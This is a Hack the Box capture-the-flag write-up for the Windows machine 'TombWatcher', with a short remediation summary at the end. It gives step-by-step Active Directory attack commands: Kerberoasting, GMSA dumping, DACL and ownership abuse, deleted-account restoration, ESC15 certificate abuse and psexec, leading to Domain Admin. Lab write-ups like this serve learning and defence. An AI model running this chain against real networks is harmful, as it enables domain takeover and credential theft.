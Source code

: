 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Learn to abuse WriteOwner privilege using Impacket's owneredit.py script
- Give an account FullControl using Impacket's dacledit.py tool
- Enumerate and restore deleted user accounts on PowerShell
- Exploit ESC15 vulnerable template
- Add user to Domain Admin group with an LDAP shell


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred

`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball

`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec

`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.

`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. Using Powershell, we look for all users in the ADCS group, but returns none.

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/8eff94bc-94ec-48aa-8b0a-1fe221ba5ae6)

14. After considering the title of the box, TombWatcher, we look for deleted objects.

`Get-ADObject -Filter 'ObjectClass -eq "user" -and IsDeleted -eq $True' -IncludeDeletedObjects`

![image](https://github.com/user-attachments/assets/83112f89-da07-42af-ac6f-1d9b82f5faf5)

15. Shows the cert_admin user has been deleted. Let's try to restore the account and enable it again using PowerShell

`Restore-ADObject -Identity 'f80369c8-96a2-4a7f-a56c-9c15edd7d1e3'`

16. Check cert_admin account is restored

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/6a82727a-bf1b-4bcc-9990-d8539361fcef)

17. Success! Now, change cert_admin's password using John's GenericAll privs on that account

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.78 -u john -p Password123 set password cert_admin Summer2025`

18. With cert_admin's account, we naturally enumerate for vulnerable certificate templates with certipy. Certipy returns a WebServer template that's vulnerable to ESC15

`certipy find -u cert_admin -p Summer2025 -dc-ip 10.129.47.78 -enabled -vulnerable`

![image](https://github.com/user-attachments/assets/e0ae6706-66dc-4b5b-96af-89790ca715c9)

19. Using certipy, request the WebServer template with admin's UPN and SID.

`certipy req -dc-ip 10.129.32.88 -ca tombwatcher-CA-1 -u cert_admin -p Summer2025 -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500'`

20. With admin's certificate, we get a root ldap shell on the machine. With the ldap shell, add user John to Domain Admins group

`certipy auth -pfx administrator1.pfx -dc-ip 10.129.32.88 -ldap-shell`

![image](https://github.com/user-attachments/assets/5f2f263b-3bf8-41de-9375-f944d88c163e)

21. Check John is Domain Admin with netexec and then get root shell on the machine using psexec.py

`nxc smb 10.129.32.88 -u john -p Password123`

`psexec.py john:Password123@10.129.32.88`

![image](https://github.com/user-attachments/assets/3688c466-0203-457f-841d-c225bc93a605)

22. Get root flag and pwned!

![image](https://github.com/user-attachments/assets/a0bf96da-888e-4e30-a317-ba3ddc7eb813)


## Remediation Summary
- Follow principle of Least Privilege. Do not give any users more privileges than necessary.
- Do not use default V1 certificate templates, as they are often misconfigured and vulnerable to privilege escalation attacks.
- If default templates must be used, the next best step would be to edit the Enrollment Rights for vulnerable templates to only allow privileged groups, which will significantly decrease the number of accounts that can exploit this vulnerability.


